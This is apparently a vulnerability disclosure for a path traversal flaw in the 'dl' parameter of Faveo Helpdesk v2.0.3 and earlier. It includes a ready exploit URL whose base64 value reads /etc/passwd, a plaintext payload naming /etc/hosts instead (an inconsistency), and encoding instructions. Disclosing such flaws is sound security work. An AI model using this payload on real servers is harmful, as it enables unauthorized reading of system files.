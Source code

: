 Vulnerability: File Traversal via dl
URL: https://192.168.124.130/logs?dl=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d
Payload: ../../../../../../../../../../../../../../../../etc/hosts
Action to trigger: None
Note: The payload needs to be base64 encoded and then URL encoded
Version: ‎Version v2.0.3 and prior
Authenticated: Yes
User: Admin
Vulnerable Parameter: dl

https://github.com/ladybirdweb/faveo-helpdesk

![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_File_Traversal_via_dl.gif)
